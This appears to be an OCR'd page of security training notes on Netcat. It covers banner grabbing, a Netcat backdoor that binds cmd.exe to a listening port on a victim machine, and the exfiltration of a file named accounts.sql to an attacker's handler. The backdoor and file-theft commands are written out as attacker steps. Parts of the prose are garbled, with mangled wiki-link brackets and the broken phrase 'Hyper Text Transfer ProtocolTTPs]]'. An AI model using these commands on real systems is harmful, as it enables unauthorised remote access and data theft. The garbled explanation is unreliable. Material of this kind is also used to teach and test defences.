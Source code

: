 ## NETCAT

One simple but effective [[tool]] for testing connectivity is Netcat (nc), available for both Windows and Linux. Netcat is a computer networking utility for reading and writing raw data over a network connection, and can be used for port scanning and fingerprinting. For example, the following command attempts to connect to the Hyper Text Transfer ProtocolTTPs]] port on a server and return any banner by sending the "head" Hyper Text Transfer ProtocolTTPs]] keyword: **(To check for if it's possible to open a network connection to a remote host over a given port#)** 

echo "head" | nc 10.1.0.1 -v 80

Netcat can also establish connections with remote machines. To configure Netcat as a [[backdoor]], you first set up a listener on the victim system (IP: 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler:

nc -l -p 666 -e cmd.exe

The following command connects to the listener and grants access to the terminal:

nc 10.1.0.1 666

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

type accounts.sql | nc 10.1.0.192 6666

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

nc -l -p 6666 > accounts.sql
